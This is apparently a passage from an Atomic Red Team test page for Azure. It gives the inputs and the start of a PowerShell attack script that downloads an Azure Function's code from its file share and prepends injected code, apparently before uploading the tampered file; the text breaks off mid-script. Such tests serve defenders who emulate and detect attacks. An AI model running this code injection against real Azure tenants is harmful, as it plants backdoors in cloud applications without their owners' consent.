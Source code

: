 Execution options: Defined by the input field execution_option
- insert_code: This option (1) downloads the existing funciton code into a tmp file, (2) injects the code from code_to_insert_path at the beginning of the file, and (3) uploads the tampered file to the targeted Azure Function code (Azure File Share File).
- replace_file: This option uploads the function code defined in code_to_insert_path to the targeted Azure Function code (Azure File Share File).

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 67aaf4cb-54ce-42e2-ab56-e0a9bcc089b1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| storage_account_name | Name of storage account that is related to the Function | string | storage_account_name_example|
| execution_option | Chooses execution option insert_code, or replace_file | string | insert_code|
| file_share_name | Name of the file share that is related to the Function | string | file_share_name_example|
| file_path | Path to the Function file in the file share | path | site/wwwroot/function_app.py|
| code_to_insert_path | The code that will be injected into the Function | path | $PathToAtomicsFolder/T1550.001/src/code_to_insert.py|


#### Attack Commands: Run with `powershell`! 


```powershell
az login    # Log in to Azure CLI

$allowSharedKeyAccess = az storage account show --name "#{storage_account_name}" --query "allowSharedKeyAccess"

if ($allowSharedKeyAccess -eq "false") {    # $allowSharedKeyAccess could be true or null
    Write-Output "Shared key access is disabled for this storage account."
} else {
    # Download file for cleanup
    $tmpOriginalFileName = [System.IO.Path]::GetFileName("#{file_path}")
    $tmpOriginalFunctionCode = Join-Path $env:temp/ ("T1550.001_tmp_original_" + $tmpOriginalFileName)
    az storage file download --account-name "#{storage_account_name}" --share-name "#{file_share_name}" -p "#{file_path}" --only-show-errors --dest $tmpOriginalFunctionCode

    if ($LASTEXITCODE -eq 0) {
        # Upload new funciton code if download of existing code succeeded
        if ("#{execution_option}" -eq "insert_code") {
            # Download file from file share for injection
            $tmpFunctionCode = Join-Path $env:temp/ ("T1550.001_tmp_to_inject_" + $tmpOriginalFileName)
            az storage file download --account-name "#{storage_account_name}" --share-name "#{file_share_name}" -p "#{file_path}" --only-show-errors --dest $tmpFunctionCode
            
            if ($LASTEXITCODE -ne 0) {
                Write-Output "Function code download failed."
                exit 1
            }
            Write-Output "File downloaded: $($tmpFunctionCode)"
            
            $insertContent = Get-Content -Path "#{code_to_insert_path}" -Raw  # Load the content of the insert file
            
            $content = Get-Content -Path $tmpFunctionCode -Raw  # Inject code to file
            $content = $insertContent + "`n" + $content     # Insert the new code at the beginning
```